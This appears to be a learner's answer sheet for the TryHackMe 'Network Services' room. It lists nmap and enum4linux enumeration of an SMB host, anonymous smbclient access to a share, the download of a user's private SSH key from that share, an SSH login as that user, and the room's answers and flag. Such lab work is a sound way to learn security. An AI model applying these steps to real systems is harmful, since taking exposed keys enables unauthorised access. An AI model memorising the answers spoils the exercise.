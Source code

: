 Room: https://tryhackme.com/room/networkservices
Name: Network Services
///Task 3///
===
Conduct an nmap scan of your choosing, How many ports are open?
** nmap -sC -p 1-1024
3
===
What ports is SMB running on?
139/445
===
Let's get started with Enum4Linux, conduct a full basic enumeration. For starters, what is the workgroup name?    
**  enum4linux -G 10.10.223.88
workgroup
===
What comes up as the name of the machine?        
** nmap -sC -p 1-1024
polosmb
===
What operating system version is running?    
** nmap -sC -p 1-1024
6.1
===
What share sticks out as something we might want to investigate?    
profiles

///Task 4///
===
What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?
smbclient //10.10.10.2/secret -U suit -p 445
===
Does the share allow anonymous access? Y/N?
** smbclient //machine_ip/profiles -U Anonymous -p 445
Y
===
Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?
** ls
** more "Working From Home Information.txt"
john cactus
===
What service has been configured to allow him to work from home?
ssh (as of "Working From Home Information.txt")
===
Okay! Now we know this, what directory on the share should we look in?
** ls
.ssh
===
This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?
** cd .ssh
** ls
id_rsa
===
Download this file to your local machine, and change the permissions to "600" using "chmod 600 [file]".
** cd .ssh
** ls
** mget id_rsa*       [for "** mget id_rsa*" answer all with yes or y]
Open new terminal (leave ssh open)
** ls                 ["ls" on homescreen]
chmod 600 id_rsa
** cp id_rsa .ssh
** cp id_rsa-pub .ssh
** ssh cactus@machine_ip
===
What is the smb.txt flag?
** ls
** nano smb.txt
THM{smb_is_fun_eh?}
